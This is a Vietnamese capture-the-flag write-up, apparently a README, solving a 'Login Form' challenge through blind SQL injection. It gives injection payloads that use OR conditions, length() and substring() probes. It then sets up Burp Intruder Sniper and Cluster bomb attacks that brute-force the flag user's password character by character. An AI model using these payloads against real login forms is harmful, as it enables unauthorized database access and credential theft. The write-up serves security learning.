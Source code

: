 <h1>Login Form</h1>

Kiểm tra lỗi Sql Injection

![](./img/1.png)

Flag nằm trong cột password có username là <b>flag</b>

> username=1'+or+'1'='1'+and+(select+'a'+from+user+where+username='flag')='a'--+-

![](./img/2.png)

Đây là lỗ hổng SQL BLind

Sử dụng Intruder kiểm tra độ dài <b>Password</b> với payload:

>username=1'+or+'1'='1'+and+(select+'a'+from+user+where+username='flag'+and+length(password)=§1§)='a'--+-&password=asd&login=

![](./img/3.png)

- Chọn kiểu tấn công <b>Sniper</b>
- trong phần payload set chọn <b>Numbers</b>
- Thêm <b>Grep-Match</b> với nội dung là: <b>flag</b>

Nhấn nút <b>Attack</b> và quan sát:

![](./img/4.png)
=> độ dài của password = 35 ký tự

Tiếp theo
- cắt từng ký tự của password và đem so sánh với character set: <b>abcdefghijklmnopqrstuvwxyz0123456789{}_</b>
- Flag có form: <b>Flag{}</b>, thử với ký tự đầu tiên và so sánh với chữ <b>f</b>:

> username=1'+or+'1'='1'+and+(select+substring(password,1,1)+from+user+where+username='flag'+and+length(password)=35)='f'--+-

![](./img/5.png)

Tiếp theo, đưa request vào intruder tiến hành brute force

![](./img/6.png)
- Chọn kiểu tấn công <b>Cluster bomb</b>
- Payload 1 là vị trí ký tự đang kiểm tra => payload set chọn kiểu <b>numbers</b>
- Payload 2 là giá trị của ký tự => payload set chọn kiểu brute force <b>abcdefghijklmnopqrstuvwxyz0123456789{}_</b>

Nhấn <b>Attack</b> và quan sát:

![](./img/7.png)

Sắp xếp lại payload 2 theo số thứ tự từ 1->35 của payload 1 ta được Flag: <b>flag{bl1nd_sql_inj3cti0n_v3ry_3asy}</b>

Submit flag trên vào web login thì phản hồi nhận được là <b>success</b>, nhưng nộp flag thì lại báo sai. Lý do tại sao thì mình không biết, sau 1 hồi ngồi thử thì flag đúng là thế này: 

<b>Flag{Bl1nd_Sql_Inj3cti0n_V3ry_3asy}</b>